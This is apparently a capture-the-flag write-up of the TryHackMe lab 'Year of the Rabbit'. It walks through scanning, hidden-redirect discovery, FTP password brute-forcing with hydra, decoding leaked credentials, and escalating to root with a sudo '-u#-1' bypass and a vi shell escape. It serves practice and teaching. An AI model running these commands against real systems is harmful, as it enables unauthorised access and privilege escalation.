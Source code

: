 # Year of the Rabbit

***
[](https://tryhackme-images.s3.amazonaws.com/room-icons/c062ef0e0b4f70e51a2dafc5fc2bca0e.jpeg)

## Difficulty = Easy
***

Running our nmap scan we have -:


```bash
# Nmap 7.94 scan initiated Mon Oct 23 04:16:09 2023 as: nmap -p80,22,21 -sCV -T4 -v --min-rate=1000 -oN nmap.txt 10.10.184.53
Nmap scan report for 10.10.184.53
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 23 04:16:29 2023 -- 1 IP address (1 host up) scanned in 19.79 seconds
```

We can't login to `FTP` as anonymous user 


![](https://i.imgur.com/Ue9ZHST.png)


Navigating to port `80/HTTP` we have a default Apache2 website



![](https://i.imgur.com/nGondix.png)


- No vital information on `Page-Source`
- status code `404` in both `/sitemap.xml` and `/robots.txt`


Running dir/file bruteforce with `dirseach` we have only the `/assets` page


![](https://i.imgur.com/XT1GnQk.png)


Navigating to the `/assets` the first link truly got us **rick-rolled** 😂

![](https://i.imgur.com/EY5oCOM.png)

The second link, `/assets/style.css`, on the other hand gives us this information


![](https://i.imgur.com/YRKU9Of.png)


Checking `/sup3r_s3cr3t_fl4g.php` refers us to `/sup3r_s3cr3t_fl4g/` and then ask us to turn off **javascript**

![](https://i.imgur.com/EpMMxOe.png)

If you click `Ok` you get **rick-rolled** one more time 😭😂


![](https://i.imgur.com/3cJHyMG.png)

Making a request to `/sup3r_s3cr3t_fl4g/` with `curl` we can see we have a message, No wonder we are being referred 🤔


![](https://i.imgur.com/1W79sJq.png)

Well, start up `burpsuite` and intercept the `/sup3r_s3cr3t_fl4g.php` page then **send to repeater**

![](https://i.imgur.com/7rpCiII.png)


Click `Follow redirection` at the top-bar

![](https://i.imgur.com/KFz9j1T.png)



Nice, looks like this is what they don't want us to see, we are been referred to the page, `/intermediary.php?hidden_directory=/WExYY2Cv-qU`, then from here again to `http://10.10.184.53/sup3r_s3cr3t_fl4g.php`,
where the final **rick-roll** video plays

![](https://i.pinimg.com/originals/5f/d8/ca/5fd8ca9ef493ae16d1896d32a81cd193.gif)

Accessing `/intermediary.php?hidden_directory=/WExYY2Cv-qU` , i decided to use the **hidden_directory** parameter value directly, which is `/WExYY2Cv-qU`, we have an image

![](https://i.imgur.com/My70Hyn.png)

Download the image with the following command

```bash
$ wget http://10.10.184.53/WExYY2Cv-qU/Hot_Babe.png
```


Running the `strings` command on the image and scrolling down gives us this


![](https://i.imgur.com/qxi9ENY.png)


Running this command saves the passwords to a file called `passwd.txt`

```bash
$ strings Hot_Babe.png | tail -n 82 > passwd.txt
```

We can therefore bruteforce the `FTP` protocol with the following syntax using `hydra`

```bash
$ hydra -l ftpuser -P ./passwd.txt ftp://10.10.184.53 -V
```


![](https://i.imgur.com/wZKSAgI.png)

Login in with the username and password, `ftpuser:5iez1wGXKfPKQ` we have **Eli's_Creds.txt**


![](https://i.imgur.com/vNzuslp.png)

Download the file to your base machine with the `mget` command

![](https://i.imgur.com/fgr67EY.png)


Concatenating the `Eli's_Creds.txt` file gave us a brainfuck encoded text


![](https://i.imgur.com/cssdhQY.png)



Converting the brainfuck gave us **Eli's** credential

![](https://i.imgur.com/2AleGT7.png)

Login in via `SSH` we have a message from **root** to user **Gwendoline**


![](https://i.imgur.com/UkcTxv8.png)

running the `locate` command on the keyword **s3cr3t** we have

![](https://i.imgur.com/fRwgNc6.png)



Concatenating it gives us user **gwendoline** password

![](https://i.imgur.com/DFdLYhu.png)

switch user to **gwendoline**

```bash
$ su gwendoline
```

Running `sudo -l`, would i say we don't have permission to run `/usr/bin/vi /home/gwendoline/user.txt` as **root** 😆 


![](https://i.imgur.com/941ycmx.png)

After much lookups, using this payload we where able to view the file


```bash
$  sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

![](https://i.imgur.com/Tb7Whlt.png)

we can therefore get a root shell by adding **semi-colon** (`:`) and then `!/bin/bash`

![](https://i.imgur.com/TVsf3qv.png)

Hell yeah, we are root


![](https://i.imgur.com/mBlybTF.png)
